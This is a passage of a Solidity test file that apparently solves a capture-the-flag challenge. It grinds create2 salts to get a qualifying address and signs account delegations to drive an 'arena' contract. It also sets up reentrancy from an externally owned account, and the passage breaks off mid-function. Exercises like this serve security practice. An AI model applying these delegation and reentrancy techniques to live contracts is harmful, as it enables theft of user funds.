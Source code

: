 ```solidity
        challenge = new Challenge{value: 500 ether}();
        arena = challenge.arena();
        vm.stopPrank();
    }

    function test_runSploit() external solved {
        step1(); // player
        _doBattle(); // server role
        step2(); // player
    }

    function step1() internal runAsPlayer {
        uint256 agentPk = 0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d;

        // sending some eth for gas usage of our agent
        (bool success, ) = vm.addr(agentPk).call{value: 0.1 ether}("");
        require(success, "sending ether to our agent failed");

        bytes memory code = type(MyAgent).creationCode;
        address agentImplementation;

        uint256 i = 0;
        while (true) {
            assembly {
                agentImplementation := create2(
                    0,
                    add(code, 0x20),
                    mload(code),
                    i
                )
            }
            bytes20 _test = (bytes20(address(agentImplementation)));
            if (jailbreaker(_test)) {
                break;
            }
            i++;
        }

        // Agent signs a delegation allowing `agentImplementation` to execute transactions on its behalf.
        Vm.SignedDelegation memory signedDelegation = vm.signDelegation(
            address(agentImplementation),
            agentPk
        );
        vm.attachDelegation(signedDelegation);

        // now lets register user and ask for bloooood
        arena.deposit{value: 7 ether}();
        arena.register(vm.addr(agentPk));
        arena.claimPig();
        arena.claimPig();
        arena.claimPig();
        arena.requestBattle(address(challenge), 5.9 ether); // 5.9 because if we win we've enough to withdraw (> 10 ether in total), and that let us some wei for gas usage
    }

    function step2() internal runAsPlayer {
        MyEOAImplementation eoaImplem = new MyEOAImplementation();
        // We signs a delegation allowing a contract to execute transactions on our behalf (allowing reentrancy with an EOA).
        Vm.SignedDelegation memory signedDelegation = vm.signDelegation(
            address(eoaImplem),
            playerPk
```